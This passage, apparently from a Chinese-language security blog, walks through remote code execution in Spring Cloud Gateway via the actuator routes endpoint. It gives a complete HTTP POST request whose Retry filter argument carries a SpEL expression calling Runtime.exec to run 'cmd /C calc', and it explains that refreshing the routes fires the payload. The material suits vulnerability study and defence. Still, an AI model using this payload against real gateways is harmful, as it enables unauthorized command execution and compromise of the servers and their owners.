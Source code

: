 ```txt
[RequestSizeGatewayFilterFactory@32f1fafe configClass = RequestSizeGatewayFilterFactory.RequestSizeConfig]
RequestSize
[RequestHeaderSizeGatewayFilterFactory@236eccd1 configClass = RequestHeaderSizeGatewayFilterFactory.Config]
RequestHeaderSize

```
这里的每种name，实际上又对应了不同的GatewayFilterFactory，我们选择一个Retry来做个验证。

5、Retry 的RCE 
构造基于Retry 的RCE
```txt
POST /actuator/gateway/routes/testw 	HTTP/1.1
Host: 192.168.43.8:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36 Edg/103.0.1264.49
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/json
Content-Length: 475

{
  "id": "testw",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"/first"}
  }],
  "filters": [
		{
		"name":"Retry",
		"args": {
         "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"cmd \", \"/C\", \" calc\"}).getInputStream()))}",
          "name": "cmd123"
            }
		}
	],
  "uri": "https://www.uri-destination.org",
  "order": 0
}]
```
![image.png](https://gitee.com/shine05/myblog-gallery/raw/master/img/d4b37855c20cadf4a4824fde42e691ec.png)
刷新路由，即可触发RCE，弹出计算器
![image.png](http://moonsec.top/articlepic/5b080197469a1ef6878b1aff5d789302.png)
PS：此处刷新路由，是因为Gateway如果让路由生效，必须进行刷新才行。刷新后路由自动加载。
请求该路由信息
![image.png](http://moonsec.top/articlepic/1f730e2547fff96e43bc57e32c35776a.png)
